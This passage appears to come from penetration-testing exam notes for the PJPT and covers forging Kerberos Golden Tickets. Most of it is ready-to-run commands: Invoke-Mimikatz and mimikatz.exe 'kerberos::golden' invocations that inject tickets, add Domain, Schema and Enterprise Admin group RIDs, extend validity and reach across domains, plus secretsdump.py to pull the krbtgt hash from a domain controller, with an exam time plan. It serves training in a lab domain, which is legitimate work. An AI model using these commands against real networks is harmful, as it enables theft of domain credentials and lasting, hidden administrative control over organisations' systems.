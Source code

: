 ### PowerShell Integration
```powershell
# Create Golden Ticket with PowerShell
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::golden /user:admin /domain:marvel.local /sid:S-1-5-21-2894840767-2101617394-1820205593 /krbtgt:9b25135001a69d53af33aa6cdc8915735 /ptt"'

# Test access
Test-NetConnection dc.marvel.local -Port 445
Get-WmiObject -Class Win32_ComputerSystem -ComputerName dc.marvel.local
```

## 🔍 Advanced Golden Ticket Techniques

### Custom Group Memberships
```bash
# Include specific group RIDs for enhanced access
# 512 = Domain Admins
# 513 = Domain Users  
# 518 = Schema Admins
# 519 = Enterprise Admins
# 520 = Group Policy Creator Owners

mimikatz.exe "kerberos::golden /user:admin /domain:target.local /sid:DOMAIN_SID /krbtgt:KRBTGT_HASH /groups:512,518,519 /ticket:golden.kirbi"
```

### Extended Validity Period
```bash
# Create ticket valid for specific timeframe
mimikatz.exe "kerberos::golden /user:admin /domain:target.local /sid:DOMAIN_SID /krbtgt:KRBTGT_HASH /startoffset:0 /endin:600 /renewmax:10080 /ticket:golden.kirbi"
```

### Cross-Domain Golden Tickets
```bash
# For forest-wide access (requires Enterprise Admin)
mimikatz.exe "kerberos::golden /user:admin /domain:child.target.local /sid:CHILD_DOMAIN_SID /krbtgt:KRBTGT_HASH /sids:S-1-5-21-ROOT-DOMAIN-SID-519 /ticket:golden.kirbi"
```

## 🎯 PJPT Exam Strategy

### Time Allocation (10-15 minutes)
1. **5 minutes**: Extract krbtgt hash and domain information
2. **5 minutes**: Create and test Golden Ticket
3. **5 minutes**: Document persistent access and impact

### Quick Commands for Exam
```bash
# Extract krbtgt info
secretsdump.py domain/user:pass@dc_ip -just-dc-ntlm | grep krbtgt

# Get domain SID
wmic computersystem get domain
whoami /user | findstr "S-1-5-21"

# Create Golden Ticket
mimikatz.exe "kerberos::golden /user:admin /domain:TARGET.LOCAL /sid:DOMAIN_SID /krbtgt:KRBTGT_HASH /ptt"

# Test access
```
